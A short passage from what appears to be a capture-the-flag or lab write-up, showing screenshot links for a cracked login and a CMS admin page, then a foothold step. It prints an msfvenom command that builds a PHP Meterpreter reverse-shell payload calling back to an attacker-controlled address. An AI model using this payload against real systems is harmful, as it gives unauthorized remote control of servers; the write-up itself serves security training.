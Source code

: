 ![cracked](assets/markdown-img-paste-20210830075316488.png)

![adminindex](assets/markdown-img-paste-20210830075644370.png)
## Foothold/Exploit
Since we're on an admin page on CMS that runs on PHP - I'll try to get a PHP reverse shell/meterpreter.

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.8.210.115 -f raw -o upload/merp.php`
